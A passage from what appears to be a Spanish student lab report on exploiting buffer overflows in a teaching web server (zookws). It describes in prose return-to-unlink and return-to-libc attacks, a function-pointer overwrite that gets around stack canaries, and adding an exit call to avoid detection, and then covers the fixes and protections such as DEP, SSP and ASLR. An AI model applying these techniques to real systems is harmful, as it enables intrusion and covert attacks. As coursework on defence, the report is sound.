
\includegraphics[scale=0.75]{./imagenes/gdbns2.png}
\caption{Buscamos la direccion de \textit{unlink} y la desemsamblamos}
\end{figure} 

Ahora construiremos un exploit que desborde el búffer y sobreescriba en la dirección de retorno la direccion de la subrutina \textit{unlink}.

Tenemos que tener en cuenta que cuando se ejecute la instruccion \textit{ret}, el esp aumenta su valor (el return address es desapilado). Ademas, la función \textit{unlink} toma el primer argumento de la posición 0x4(esp), según la convención de llamada y como podemos ver en su implementación al ser desemsamblada. Esto es porque espera que en la dirección apuntada por el esp al momento que se inicia la subrutina se encuentre la return address a la subrutina invocante. Nosotros pondremos un 0 en esta posición (lo que probablemente genere un fallo de segmentacion luego), esto podria ser corregido e invocar luego a la funcion \textit{exit} si quisieramos una terminación no anómanola del proceso, o incluso para seguir ejecutando subrutinas. \\

En este exploit localizamos la ruta del archivo a borrar en el frame superior (de la función llamante de \textit{process\_client}) puesto que cuando "llamemos" (en realidad estamos simulando suciamente un CALL) a la función \textit{unlink}, éste será el frame de la función que supuestamente la llama. También recordemos de colocar en 0xBFFFF624 (primer argumento desde la perspectiva de un \textit{unlink}) la dirección de dicha cadena (0xBFFFF628). Tambien nos sercionamos que el primer argumento de la llamada a unlink esta correctamente colocado y apunta al archivo que queremos borrar.\\

Un esquema de como queda la pila antes del ret podemos verla en la Figura 9. En las Figuras 10 y 11 podemos corroborar esto, cuando debugueamos el funcionamiento del exploit.

\begin{figure}[htp]
\centering

\includegraphics[scale=0.35]{./imagenes/esquema2.png}
\caption{La pila y valores de eip y ebp antes y después del ret}
\end{figure} 

\begin{figure}[htp]
\centering

\includegraphics[scale=0.50]{./imagenes/ns1.png}
\caption{Efectivamente el eip cambia su valor saltando a la subrutina \textit{unlink}}
\end{figure}

\begin{figure}[htp]
\centering

\includegraphics[scale=0.7]{./imagenes/ns2.png}
\caption{El argumento de \textit{unlink} está correctamente ubicado}
\end{figure} 


\subsection{Pasando desapercibidos}
Si el programa termina anormalmente (con un Segmentation Fault, Instrucción Inválida, etc) el administrador del sistema podría detectar actividad sospechosa, investigar en logs de depuración y detectar el ataque. Para pasar desapercibidos se puede hacer acciones que mitiguen la detección como parte del ataque: como que el programa continúe su ejecucción normal o finalice sin errores. \\

Se ha agregado para dicho fin a la shellcode instrucciones que llaman a la syscall  \textit{exit}. En el  \textit{exploit-unlink1.py} esto ocasiona que el proceso termine exitosamente y como se trata del respectivo al dispatcher el servidor deja de funcionar.\\
En este sentido es preferible el  \textit{exploit-unlink2.py} que es análogo al anterior pero el proceso que mata es un esclavo de zookfs que atiende la petición del cliente. Por lo cual el servidor no cae. \\

Esta técnica tambien sería compatible en un marco de pila no ejecutable, utilizando la tecnica return-to-libc, ejecutando primero las subrutinas deseadas y luego a la funcion \textit{exit}. Hay que recordar que podemos hacer llamadas sucesivas a varias funciones de la libc modificando adecuadamente la pila y aprovechando los saltos ocasionados por los ret de cada subrutina. \\

\subsection{Exploits no basados en el return address}
Algunos métodos de protección orientados en proteger la return address pueden saltarse de manera simple: no modificar la return address!. \\

Muchas veces podemos sobreescribir otros datos que controlen el flujo del programa de manera malintencionada. Por ejemplo en la vulnerabilidad $VUL_4$, podemos hacernos con el control del instrucction pointer sobreescribiendo el puntero a función \textit{handler}, que posteriormente es utilizado en una invocación. Los exploits \textit{exploit-libc2} y \textit{exploit-iny3} proceden de este modo. \\

Desafortunadamente en este caso, al querer utilizar la técnica return-to-libc deberíamos corromper el primer argumento pasado a \textit{handler} que es \textit{fd}. El cual es un argmuento de la subrutina \textit{http\_serve} y por ello se encuentra más allá del return address como podemos ver en la Figura 12. Es por ello que \textit{exploit-libc2} sobreescribe la return addres -con el padding-, aunque no lo utilza para tomar el control del instrucction pointer. \\

\begin{figure}[htp]
\centering

\includegraphics[scale=0.75]{./imagenes/fd.png}
\caption{No podemos sobreescribir \textit{fd} sin corromper el return address}
\end{figure} 

Lamentablemente, por la disposición que tiene la pila en el caso del servidor configurado con \textit{zook-withssp.conf} (el cual implementa la protección SSP) no pudimos explotar esta vulnerabilidad en este caso ya que el desbordamiento de \textit{pn} no puede sobreescribir la variable \textit{handler}. En la Figura 13 se muestra claramente que \textit{handler} se encuentra en una posicion de memoria mas baja.

\begin{figure}[htp]
\centering

\includegraphics[scale=1]{./imagenes/withsspinfo.png}
\caption{No podemos sobreescribir \textit{handler} desbordando \textit{pn}}
\end{figure} 

\section{ Solucionando los errores }
A pesar de los avances en lenguajes de programación y compiladores, los errores que causan vulnerabilidades de desbordamiento de búffer siguen descubriéndose en el software moderno. \\

Una de las principales causas es programar en lenguajes inseguros como en este caso, que se decidió a programar en C el servidor web. Muchas veces esta elección deriva de la obsesión por la performance. Con los avences en el hardware, nuevos compiladores y técnicas de interpretación de código no deberíamos poner este argumento en la balanza, más aun, comprometiendo la seguridad de nuestros sistemas. Además en casos como este el cuello de botella suele estar en esperar datos de entrada/salida provenientes de la red. \\

Sin embargo a veces las razones son inaludibles, como la existencia de piezas software pre existentes o la necesidad de una interacción fina con el hardware. En estos casos requiere un cuidadoso análisis de los diseñadores del software y una correcta especificación de las rutinas que se implementarán. Solo asi podremos distinguir las responsbilidades de cada pieza de software y ver si las verifica. También técnicas y mecanismos de protección provistas por compiladores, sistemas operativos y hardware pueden ser de mucha ayuda. \\

En el caso particular que analizamos, las vulnerabilidades suelen provenir del uso de funciones de copiado inseguro como \textit{strcat} o \textit{sprintf} o por copiados a medida que hacen desreferencias o indexaciones sin chequeos (como \textit{url\_decode}). Se dicen que subrutinas como éstas no son seguras porque podrían ocacionar overflow. Existen variantes como  \textit{strncat} o  \textit{snprintf} que controlan el tamaño del búffer destino. En nuestra opinión las primeras pueden ser usadas siempre y cuando se recuerde respetar las precondiciones de las funciones (respetar el formato de las cadenas de caracteres segun C lo especifica terminando en '\textbackslash 0', chequear previamente el tamaño de los búffers, etc). \\

Bajo el mismo criterio que se dice que funciones como \textit{strcat} o \textit{sprintf} son inseguras, se podria argumentar que el simple operador de indexacion $[$ $]$ es inseguro. Las funciones de copiado denominadas "seguras" no proveen una solucion completa, también se tiene que cuidar de controlar que los tamaños (que son completados por el programador) sean correctos. En mi opinión siempre es más recomendable utilizar lenguajes que aseguren un manejo más seguro de los búffers, cuando no haya necesidad de tener contacto con el bajo nivel. \\

En el presente trabajo se han modificado los códigos \textit{http.c}, \textit{sookd.c} y \textit{sookfs.c} solucionando las vulnerabilidades. No se quiso modificar las interfaces, por lo que se optó por no modificar la subrutina insegura \textit{url\_decode} y pensar que la responsabilidad de que el copiado entre en el destino es del invocador. Así, se han aumentado el tamaño de los búffer \textit{value} y \textit{envvar} (\textit{http.c:120,121}). Del mismo modo se ha considerado responsabilidad del invocante de \textit{http\_request\_line} de que \textit{reqpath} apunte a un búffer de un tamano de al menos 8192 caracteres (para ello se modifico el tamaño de \textit{reqpath} en \textit{zookd.c:65}) \\
Se ha modificado el tamaño de \textit{pn} (\textit{http.c:276}) aunque también se ha utilizado la función \textit{strncat} como manera ilustrativa para mostrar que a veces no es tan trivial el uso de estas funciones "seguras".\\

Se puede corroborar que los exploits ya no son efectivos para estos nuevos códigos.


\section{Mecanismos de protección}

Afortunadamente existen soluciones a los problemas de desbordamiento de búffer. Como se dijo, una de ellas es utilizar lenguajes seguros. Cuando esto no sea posible se pueden adoptar buenas prácticas en la programación para evitar los errores que dan origen a estas vulnerabilidades. \\
A pesar de esto también existe un útil conjunto de técnicas que permiten mitigar las consecuencias de los desbordamientos, ya sea preveniéndolos o detectándolos a tiempo para prevenir la ejecucción de código malicioso. Muchos de ellos se implementan a diferentes niveles con la ayuda conjunta del hardware, el sistema operativo y los compiladores. \\
En este capítulo haremos una revision teórica de los métodos de protección más populares para prevenir o detectar que las vulnerabilidades puedan ser explotadas.

\subsection{Data Execution Prevention (DEP)}
 Si bien es cierto que nuestro programa ejecuta instrucciones con la ayuda y basándose en el Sistema Operativo, el mismo no está vigilando cada instrucción que éste ejecuta. Alguien que sí puede hacer esto es el hardware cuando se hace el fetch de las instrucciones. El hardware moderno permite marcar como no ejecución ciertas secciones de memoria. Otorgando al Sistema Operativo un mecanismo de protección para evitar la ejecucción de instrucciones inyectadas en stack.
Linux introdujo DEP en 2004 (kernel 2.6.8) y Microsoft lo incoporó como parte de WinXP SP2 (2004). \\ \\
Existen técnicas populares que rompen esta protección. Se basan en que todavía tenemos control del return address para saltar a algun conjunto de instrucciones que nos resulte útil ejecutar. Podemos elegirlas entre las ya presentes en el binario en cuestión. Incluso si la última instrucción de la secuencia elegida es un \textit{ret} podemos aprovecharlo para saltar a otro sitio. Estas técnicas entran dentro del conjunto de las llamdas \textit{return oriented programming} (ROP). \\
Es muy conocida la técnica denominada \textit{return-to-libc}. La misma consiste en sobrescribir la dirección de retorno por la dirección de alguna funcion de la librería del runtime linkeada a nuestro programa. Esto nos permitiría, por ejemplo, llamar a funciones de sistema.

\subsection{Stack canaries - SSP}
Otra protección común es la colocación de valores en el comienzo del frame de cada subrutina denominados \textit{canaries} o \textit{cookies}. Estos valores usualmente convinan valores generados aleatoriamente en el cargado del programa y valores que suelen cortar la mayoria de los stream de input (\textit{terminator canary}). A la salida de cada subrutina se chequea que estos valores, secretos para una posible atacante, no hayan sido sobreescritos, actuando como barreras protegiendo datos del frame superior y el return address.\\

No es una manera de prevenir los overflow sino de detectarlos y evitar consecuencias catastróficas como una posible instrusión (mucho peor que una simple caída de servicio). \\

Una implementación analizada es la SSP (\textit{Stack Smashing Protector}) que implementa GCC. Hay que aclarar que esta implementación, como en la mayoria, no protegen todos los búffers con canaries sino que lo hace por cada frame orientado a prevenir los ataques que capturan el return address. Como se ha mostrado en \textit{exploit-iny3}, no siempre es necesario corromper la direccion de retorno para hacerse con el flujo del programa. En la biliografía hay material que ahoda más sobre la implementación de dicha protección en particular.


\subsection{Address Space Layout (ASRL)}
Esta técnica consiste organizar de manera aleatoria el espacio de direcciones de areas claves del proceso, como la pila, el heap, las librerías y la sección de instrucciones ejecutables. La idea es desproveer al atacante de direcciones confiables con las cuales trabajar o saltar a ellas. \\

Una manera de saltear definitivamente la seguridad convinada de DEP y ASRL es utilizando algún puntero débil. Cuando un valor del stack (en una posición confiable conocida) pueda ser utilizada para encontrar una función utilizable a favor del atacante. Tambien existen diversas técnicas y contextos bajo los cuales un atacante puede aumentar sus probabilidades de éxito de un ataque o serie de ataques.


\section{Referencias}
\begin{enumerate}
\item \textsc{Aleph One},
\textit{Smashing The Stack For Fun And Profit.}
\href{http://phrack.org/issues/49/14.html}{Phrack 49. Volume Seven, Issue Forty-Nine}


\item \textsc{Crispin Cowan},
\textit{Buffer Overflows: Attacks and Defenses for the Vulnerability of the Decade.}
\url{css.csail.mit.edu/6.858/2014/readings/buffer-overflows.pdf}

\item \textsc{c0ntex},
\textit{Bypassing non-executable-stack during exploitation using return-to-libc.}
\url{css.csail.mit.edu/6.858/2014/readings/return-to-libc.pdf}

\item \textsc{shaun2k2},
\textit{Exploitation - Returning into libc.}
\url{www.exploit-db.com/papers/13197/}

\item \textsc{ Wikipedia },
\textit{ Address space layout randomization.}
\url{en.wikipedia.org/wiki/Address_space_layout_randomization}

\item \textsc{ OSDev },
\textit{ Stack Smashing Protector}
\url{wiki.osdev.org/Stack_Smashing_Protector}

\end{enumerate}

\end{document}